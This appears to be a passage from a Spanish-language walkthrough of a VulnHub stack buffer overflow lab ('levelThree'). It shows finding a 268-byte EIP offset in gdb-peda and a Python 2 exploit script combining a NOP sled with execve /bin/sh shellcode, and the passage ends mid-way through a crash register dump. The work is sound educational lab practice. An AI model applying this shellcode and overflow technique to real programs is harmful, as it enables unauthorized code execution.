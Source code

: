 Ahora como el otra vez tenemos que buscar el `offset` para esto le vamos a pasar el `EIP`

```shell
gdb-peda$ pattern_offset 0x41332541
1093870913 found at offset: 268
gdb-peda$ 
```

Necesitamos 268 bytes antes de sobreescribir el `EIP`

Ahora ya podemos proceder a hacer el script ya que no hay una funcion que nos otorge una bash asi que tenemos que definir un `shellcode` para otras explataciones podemos usar `msfvenom` pero en este nivel no es necesario usaremos esto:

- [shellcode](https://www.exploit-db.com/shellcodes/13628)

```python
#!/usr/bin/python2

offset = 268

shellcode  = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x68\x2f"
shellcode += b"\x2f\x73\x68\x68\x2f\x62\x69"
shellcode += b"\x6e\x89\xe3\x31\xc9\xcd\x80"
```

Ahora vamos a usar `NOP` que no realizar ninguna accion solo para rellenar el espacio que falta en la memoria para permitir que el flujo del control del programa sea manipulado pero muy importante tenemos que restarle el tamaño del shellcode por que no podemos pasarmos de 268 bytes para no sobreescribir el `EIP`


```python
#!/usr/bin/python2

offset = 268
#En el shellcode son las intrucciones maliciosas 
shellcode  = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x68\x2f"
shellcode += b"\x2f\x73\x68\x68\x2f\x62\x69"
shellcode += b"\x6e\x89\xe3\x31\xc9\xcd\x80"

junk  = b"\x90" * (offset - len(shellcode)) # \x90", representa la instrucción "NOP" en lenguaje de máquina
eip = b"B" * 4 # eip contiene una secuencia de caracteres "B" repetidos 4 veces, lo que representa el valor que se escribirá en el registro EIP.
print(junk + shellcode + eip) 
```

Ahora para probar vamos con gdb pasando el script como argumento

```shell
❯ gdb -q levelThree
Reading symbols from levelThree...
(No debugging symbols found in levelThree)
gdb-peda$ run $(python2 pwned3.py)
Starting program: /home/miguelrega7/VulnHub/StackOverflowForBeginners/content/levels/levelThree $(python2 pwned3.py)
Buf: j
      XRh//shh/bin1̀BBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x116 
EBX: 0xe3896e69 
ECX: 0x0 
EDX: 0x1 
ESI: 0xffffd220 --> 0x2 
```